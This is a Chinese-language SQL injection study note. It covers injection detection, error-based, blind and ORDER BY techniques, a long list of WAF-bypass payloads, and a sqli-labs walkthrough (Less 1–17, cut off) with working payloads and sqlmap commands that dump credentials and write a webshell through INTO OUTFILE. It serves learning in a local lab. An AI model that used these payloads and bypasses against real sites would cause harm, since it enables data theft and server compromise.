








## 1. 概述

**漏洞描述**

​	Web程序代码中对于用户提交的参数未做过滤，被放到SQL语句中执行，导致参数中的特殊字符打破了 SQL 语句原有逻辑，黑客可以利用该漏洞执行任意 SQL 语句，如查询数据、下载数据、写入 webshell 、执行系统命令以及绕过登录限制等。

**漏洞存在条件**

- 参数用户可控。
- 参数带入数据库查询。

**测试方法**

​	在发现有可控参数的地方使用 sqlmap 进行 SQL 注入的检查或者利用，也可以使用其他的 SQL 注入工具，简单点的可以手工测试，利用单引号、and1=1 和 and 1=2 以及字符型注入进行判断。

**修复方法**

​	在代码层最佳的防御SQL注入的手段是SQL语句的**预编译和绑定变量**。

​	（1）所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。当前几乎所有的数据库系统都提供了参数化 SQL 语句执行接口，使用此接口可以非常有效的防止SQL注入攻击。

​	（2）对进入数据库的特殊字符（ ' <>&*; 等）进行转义处理，或编码转换。

​	（3）确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为 int 型。

​	（4）数据长度应该严格规定，能在一定程度上防止比较长的SQL 注入语句无法正确执行。 

​	（5）网站每个数据层的编码统一，建议全部使用 UTF-8 编码，上下层编码不一致有可能导致一些过滤模型被绕过。 

​	（6）严格限制网站用户的数据库的操作权限，给此用户提供仅仅能够满足其工作的权限，从而最大限度的减少注入攻击 对数据库的危害。 

​	（7）避免网站显示 SQL 错误信息，比如类型错误、字段不匹配等，防止攻击者利用这些错误信息进行一些判断。


### 1.1 MySQL相关知识

​	在**mysql5**版本以后，存在一个数据库为`information_schema`，在这个库里面，有三个重要的表：`columns`，`tables`，`SCHEMATA`表，在`SCHEMATA`表中的字段`SCHEMA_NAME`存放着数据库的信息。`tables`表中`TABLE_SCHEMA`和`TABLE_NAME`分别记录库名和表名。`columns`存储该用户创建的所有数据库的库名、表名和字段名。

#### 1.1.1 Navicat连接Docker容器内MySQL

> 有这个需求的原因是我太懒了，因为是用的docker开的sqli labs环境，又不想本地再配MySQL环境，因此干脆直接利用了。

```bash
$ docker run -dt --name sqli-labs -p 8888:80 -p 3307:3306 -e MYSQL_ROOT_PASSWORD=root acgpiano/sqli-labs:latest
```

这里需要给MySQL开一个端口映射，我这里给的是`3307`端口。

```bash
$ docker exec -it sqli-labs /bin/bash
$ mysql
```

接下来将host修改为`%`即可。

```sql
select host,user from user where user='root';
FLUSH PRIVILEGES;
```


### 1.2 判断是否存在注入

```sql
id=1 and 1=1
id=1 and 1=2
id=1 or 1=1
id='1'or'1'='1'
id="1"or"1"="1"
```

**有回显**：页面有数据信息返回。

**无回显**：输入不同语句，页面无任何变化。


### 1.3 SQL注释符

`#`：单行注释，常编码为%23。

`--空格`：单行注释，注意后面有个空格。

`/**/`：多行注释，至少存在两处的注入，也常用来作为空格绕过。


### 1.4 SQL注入分类

按注入手法来分：**联合查询、堆叠查询、布尔型、报错型、基于时间延迟**。

按请求类型来分：**GET注入、POST注入、COOKIE注入。**

按注入数据类型来分：**int型、string型、like型**


#### 1.4.1 报错注入

**XPATH报错注入**

`updatexml（XML_document，XPath_string，new_value）`、`extractvalue（XML_document，xpath_string）`，XPATH的格式形如`/test`，如果XPATH出现格式错误，则会爆出XPATH语法错误。

**floor()函数报错**

```sql
select count(*),concat('x',floor(rand(0)*2))x from information_schema.tables group by x
```

`rand(0)`的重复计算是固定的，会随机生成一个[0,1]的小数，`rand(0)*2`则生成[0,2]的数，`floor()`函数是向下取整，即最后结果为0或1。我们运行一下看看。

```sql
select floor(rand(0)*2) from information_schema.tables limit 0,8;
```


可以发现这里`floor(rand(0)*2)`的值是固定的。

接下来说一下`group by`的原理，`group by`在执行时，会依次取出查询表中的记录创建一个临时表，`group by`的对象就是该临时表的主键，如果临时表中出现了该主键，则该值加一，若不存在则**插入**。再来看这个SQL语句。

```sql
select count(*),concat('x',floor(rand(0)*2))x from information_schema.tables group by x
```

其键必然为`x1`或者`x0`，那么应该只会值增加呀，为什么会报错呢？

这里有个重要特性：当`group by`和`rand()`同时使用时，若该临时表中没有主键，则插入前`rand()`会再执行一次。

那么我们来推断一下，第一次执行，`key`应该为`x0`，但是`x0`不存在，因此`rand(0)`又计算了一遍，最终第一次执行结果为`x1`。

第二次执行，这时候`key`应该为`x1`，已存在，则值加一即可。

第三次执行，这时候key应该为`x0`，不存在，`rand(0)`重新计算一遍，最终应该插入的`key`为`x1`，这里就出了问题了，它会直接插入，从而导致主键重复报错，这就是该报错原理。


**优化方案**

学习的[这篇文章](https://www.freebuf.com/articles/web/257881.html)，将`rand(0)`改为了`rand(14)`，运行一下看看。

```sql
mysql> select floor(rand(14)*2) from information_schema.tables limit 0,8;
+-------------------+
| floor(rand(14)*2) |
+-------------------+
|                 1 |
|                 0 |
|                 1 |
|                 0 |
|                 0 |
|                 0 |
|                 1 |
|                 1 |
+-------------------+
8 rows in set (0.00 sec)
```

这里只需要两条数据即可报错，但是如果只有一条数据`floor()`报错注入就不能用了，因为一条数据没办法重复。


#### 1.4.2 ORDER BY注入

主要是不能使用联合注入，还有一些函数区别。

**验证方式**

升序降序

```sql
?sort=1 asc # 升序
?sort=1 desc # 降序
```

`rand()`函数验证，`rand()`每次结果随机，因此查询出结果顺序也是随机。

```sql
?sort=rand()
?sort=1 and rand()
```

延时验证，延时的时间为 (行数 * 1) 秒

```sql
?sort=sleep(1)
?sort=1 and sleep(1)
```

**利用方式**

报错注入

```sql
?sort=1 and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23 # floor()
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1) # procedure analyse
```

布尔盲注和时间盲注使用`rand()`函数即可

```sql
?sort=rand(left(database(),1)>'r')
?sort=rand(if(ascii(substr(database(),1,1))>114,1,sleep(1)))
```

写入文件，使用`lines terminated by`，`0x3c3f70687020706870696e666f28293b3f3e`是`<php phpinfo();>`的十六进制编码。

```sql
?sort=1 into outfile "/var/www/html/less46.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e
```


## 2. SQL注入绕过


### 2.1 空格字符绕过

`%a0`：空格

`%09`：TAB键（水平）

`%0a`：新建一行

`%0c`：新的一页

`%0d`：return功能

`%0b`：TAB键（垂直）

`%00`：空字符

`/**/`：替换空格

`/*!*/`：内联注释


### 2.2 大小写绕过

```sql
union select -> UniOn SelEcT
```


### 2.3 浮点数绕过

```sql
select * from users where id=8E0union select 1,2,3,4;
select * from users where id=8.0union select 1,2,3,4;
```


### 2.4 NULL绕过

`\N`代表NULL


### 2.5 引号绕过

```sql
select * from users where id="1" #双引号绕过
select * from users where username=0x61646D696E; # 字符串转换为16进制
select * from users where id=-1 union select 1,2,(select group_concat(column_name)
from information_schema.columns where TABLE_NAME='users' limit 1),4; # 如果开启gpc，整数型也可以用十六进制绕过
```


### 2.6 添加库名绕过

```sql
select * from users where id=-1 union select 1,2,3,4 from users;
select * from users where id=-1 union select 1,2,3,4 from test.users;
```


### 2.7 去重复绕过

在 mysql 查询可以使用 distinct 去除查询的重复值。可以利用这点突破waf 拦截。

```sql
select * from users where id=-1 union distinct select 1,2,3,4 from users;
select * from users where id=-1 union distinct select 1,2,3,version() fromusers;
```


### 2.8 反引号绕过

字段加反引号可以绕过一些WAF拦截。

```sql
select * from users where id=-1 union select 1,2,3,4 from `test.users`;
```


### 2.9 语言特性绕过

在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一些 waf 的拦截。

|               服务器中间件                |          解析结果          |       举例说明       |
| :---------------------------------------: | :------------------------: | :------------------: |
|                ASP.NET/IIS                | 所有出现的参数值用逗号连接 |    color=red,blue    |
|                  ASP/IIS                  |  所有出现的参数用逗号连接  |    color=red,blue    |
|                PHP/Apache                 |    仅最后一次出现参数值    |      color=blue      |
|                 PHP/Zeus                  |    仅最后一次出现参数值    |      color=blue      |
|         JSP,Servlet/Apache Tomcat         |     仅第一次出现参数值     |      color=red       |
| JSP,Servlet/Oracle Application Server 10g |     仅第一次出现参数值     |      color=red       |
|             JSP,Servlet/Jetty             |     仅第一次出现参数值     |      color=red       |
|             IBM Lotus Domino              |    仅最后一次出现参数值    |      color=blue      |
|              IBM HTTP Server              |     仅第一次出现参数值     |      color=red       |
|         mod_perl,libapreq2/Apache         |     仅第一次出现参数值     |      color=red       |
|              Perl CGI/Apache              |     仅第一次出现参数值     |      color=red       |
|          mod_wsgi(Python)/Apache          |     仅第一次出现参数值     |      color=red       |
|                Python/Zope                |         转化为List         | color=['red','blue'] |


### 2.10 逗号绕过

`substr`

```sql
select(substr(database() from 1 for 1);
```

`mid`

```sql
select mid(database() from 1 for 1);
```

`join`

```sql
union select * from 1,2
union select * from (select 1)a join (select 2)b
```

`like`

```sql
select user() like '%r%';
```

`offset`

```sql
limit 1 offset 0
```


### 2.11 or and xor not绕过

`&&`等价于and

`||`等价于or

`!`等价于not

`|`等价于xor


### 2.12 ASCII字符对比绕过

```sql
select * from users where id=1 and ascii(substring(user(),1,1))=114; # char(114)='r'
```


### 2.13 等号绕过

```sql
ascii(substring(user(),1,1))<115; # > <
select substring(user(),1,1)like 'r%'; #like rlike
select user() regexp '^r'; # regexp
```


### 2.14 双写绕过

```sql
uniunionon seleselectct
```


### 2.15 二次编码绕过

`-1 union select 1,2,3,4# `

第一次编码：

`%2d%31%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%23 `

第二次编码：

`%25%32%64%25%33%31%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%33%31%25%32%63%25%33%32%25%32%63%25%33%33%25%32%63%25%33%34%25%32%33`


### 2.16 参数拆分绕过

对于a=[input1]&b=[input2] 可以将参数 a 和 b 拼接在 SQL 语句中，但是过滤了`union select`，可以使用参数拆分

```sql
-1'union/*&username=*/select 1,user(),3,4--+
```


### 2.17 生僻函数绕过

```sql
select polygon((select * from (select * from (select @@version) f) x)); # polygon()替换updatexml()
```


### 2.18 分块传输绕过

​	如果在 http 的消息头里 Transfer-Encoding 为 chunked，那么就是使用chunk编码方式。

​	接下来会发送数量未知的块，每一个块的开头都有一个十六进制的数,表明这个块的大小，然后接 CRLF("\r\n")。然后是数据本身，数据结束后，还会有CRLF("\r\n")两个字符。有一些实现中，块大小的十六进制数和CRLF 之间可以有空格，最后一块大小为0，表示数据发送结束。


### 2.19 信任白名单绕过

WAF会自带一些文件白名单，可以利用白名单绕过

```sql
/phpmyadmin?name=%27%20union%20select%201,user()--+&submit=1
```


### 2.20 pipline绕过

​	http协议是由tcp协议封装而来，当浏览器发起一个http请求时，浏览器先和服务器建立起连接tcp连接，然后发送http数据包（即我们用burpsuite截获的数据），其中包含了一个Connection字段，一般值为close，Apache等容器根据这个字段决定是保持该tcp连接或是断开。当发送的内容太大，超过一个http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的http 请求所建立的tcp连接不断开，直到所发送内容结束 Connection 为 close 为止。

​	用burpsuite抓包提交，复制整个包信息放在第一个包最后，把第一个包close改成keep-alive把brupsuite自动更新Content-Length勾去掉，有些WAF不会对第一个包的参数进行检测。


### 2.21 利用multipart/form-data绕过

​	multipart/form-data 表示该数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。


### 2.22 order by 绕过

```sql
select * from users where id=1 into @a,@b,@c,@d; # 替代order by猜解字段数
```


### 2.23 修改请求方式绕过

```php
<?php
echo $_REQUEST['id'];
?>
```

可以更改请求方式尝试绕过。


### 2.24 大量字符绕过

```sql
id=1 and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()
```


### 2.25 花括号绕过

```sql
select 1,2 union select{x 1},user(); # 花括号左边是注释的内容
```


### 2.26 union select绕过

```sql
sel<>ect # 程序过滤<>为空 脚本处理
sele/**/ct # 程序过滤/**/为空
/*!%53eLEct*/ # url 编码与内联注释
se%0blect # 使用空格绕过
sele%ct # 使用百分号绕过
%53eLEct # 编码绕过
uNIoN sELecT 1,2
union all select 1,2
union DISTINCT select 1,2
null+UNION+SELECT+1,2
/*!union*//*!select*/1,2
union/**/select/**/1,2
and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()
/*!50000union*//*!50000select*/1,2
/*!40000union*//*!40000select*/1,2
%0aunion%0aselect 1,2
%250aunion%250aselect 1,2
%09union%09select 1,2
%0caunion%0cselect 1,2
%0daunion%0dselect 1,2
%0baunion%0bselect 1,2
%0d%0aunion%0d%0aselect 1,2
--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2
/*!12345union*//*!12345select*/1,2;
/*中文*/union/*中文*/select/*中文*/1,2;
/* */union/* */select/ */1,2;
/*!union*//*!00000all*//*!00000select*/1,2
```

### 2.27 information_schema绕过

使用`sys.schema_auto_increment_columns`、`mysql.innodb_table_stats`和`mysql.innodb_table_index`绕过

## 3. sqli-labs通关

这里跟着[国光佬](https://www.sqlsec.com/2020/05/sqlilabs.html)学习

### 3.1 准备工作

**sqli-labs环境搭建**

```bash
docker pull acgpiano/sqli-labs
docker run -dt --name sqli-labs -p 8888:80 acgpiano/sqli-labs:latest
```

中间可能报错，只需要关闭代理就行。

```bash
Error response from daemon: Head "https://registry-1.docker.io/v2/acgpiano/sqli-labs/manifests/latest": Get "https://auth.docker.io/token?account=squarehhh&scope=repository%3Aacgpiano%2Fsqli-labs%3Apull&service=registry.docker.io": EOF
```

访问网页，环境搭建完毕。


### 3.2 Less 1-20

#### 3.2.1 Less-1

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

if true
  	"查询结果"
else 
	print_r(mysql_error());  
```

**联合注入**

手工

```sql
?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)%23 # 查库
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema="security")%23 # 查表
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name="users")%23 # 查字段
?id=-1' union select 1,2,(select group_concat(username,password SEPARATOR 0x3c62723e) from users)%23 # 0x3c62723e=<br>，即按换行分割
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=U -v 3 -D security -T users --dump --batch
```

**报错注入**

手工

```sql
?id=1'and updatexml(1,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e),1)%23
?id=1'and extractvalue(1,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23
?id=1'and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=E -v 3 -D security -T users --dump --batch
```

**布尔盲注**

手工

```sql
?id=1'and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67 %23 # 有回显
?id=1'and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68 %23 # 无回显
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=B -v 3 -D security -T users --dump --batch
```

**时间盲注**

手工

```sql
?id=1'and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68,1,sleep(5)) %23
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=T -v 3 -D security -T users --dump --batch
```

#### 3.2.2 Less-2

```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

闭合方式改变。

#### 3.2.3 Less-3

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

闭合方式改变。

#### 3.2.4 Less-4

```php
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

闭合方式改变。

#### 3.2.5 Less-5

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if true
  	echo 'You are in...........';
else 
	print_r(mysql_error());
```

不支持联合查询。

#### 3.2.6 Less-6

```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if true
  	echo 'You are in...........';
else 
	print_r(mysql_error());
```

闭合方式不一样。

#### 3.2.7 Less-7

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if true
  	echo 'You are in.... Use outfile......';
else 
	//print_r(mysql_error());
    echo "You have an error in your SQL syntax";
```

**布尔盲注**

```sql
?id=1'))and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67 %23 //正常回显
?id=1'))and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68 %23 //报错
```

**时间盲注**

```sql
?id=1'))and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67,1,sleep(5)) %23 //不延时
?id=1'))and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68,1,sleep(5)) %23 //延时
```

**outfile**

这里因为提示`Use outfile`，因此可以尝试写文件。

```bash
$ mysql -e "show global variables like '%secure%';"
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
```

当`secure_file_priv`为`null`时，表示限制`mysql`不允许导入导出。

当`secure_file_priv`为`/tmp`时，表示限制`mysql`只能在`/tmp`目录下导入导出。

当`secure_file_priv`为`空`时，表示限制`mysql`不对导入导出做限制。

这里还需要赋予文件写入的权限

```bash
$ chmod -R 777 /var/www/html
```

然后执行sql语句

```sql
?id=1'))union select * from security.users into outfile "/var/www/html/Less-7/user.txt"%23
```



这里也可以写入shell

```sql
?id=1'))union select 1,2,"<?php phpinfo();?>" into outfile "/var/www/html/Less-7/info.php"%23
```



#### 3.2.8 Less-8

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if true
  	echo 'You are in....';
else 
	//print_r(mysql_error());
    //echo "You have an error in your SQL syntax";
```

闭合方式改变。

#### 3.2.9 Less-9

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if true
  	echo 'You are in....';
else 
	echo 'You are in....';
```

只能用延时注入。

#### 3.2.10 Less-10

```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if true
  	echo 'You are in....';
else 
	echo 'You are in....';
```

闭合方式改变。

#### 3.2.11 Less-11

```php
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
if true
  	"查询结果"
else 
	print_r(mysql_error());
```

与Less-1一致。

#### 3.2.12 Less-12

```php
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
if true
  	"查询结果"
else 
	print_r(mysql_error());
```

闭合方式改变。

#### 3.2.13 Less-13

```php
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
if true
  	//"查询结果"
else 
	print_r(mysql_error());	
```

闭合方式改变，不能用联合查询。

#### 3.2.14 Less-14

```php
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
if true
  	//"查询结果"
else 
	print_r(mysql_error());
```

闭合方式改变。

#### 3.2.15 Less-15

```php
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
if true
  	//"查询结果"
else 
	//print_r(mysql_error());
```

闭合方式改变，不能使用报错。

#### 3.2.16 Less-16

```php
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
if true
  	//"查询结果"
else 
	//print_r(mysql_error());
```

闭合类型改变。

#### 3.2.17 Less-17

```php
//过滤
$uname=check_input($_POST['uname']);
$passwd=$_POST['passwd'];

@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";

if true
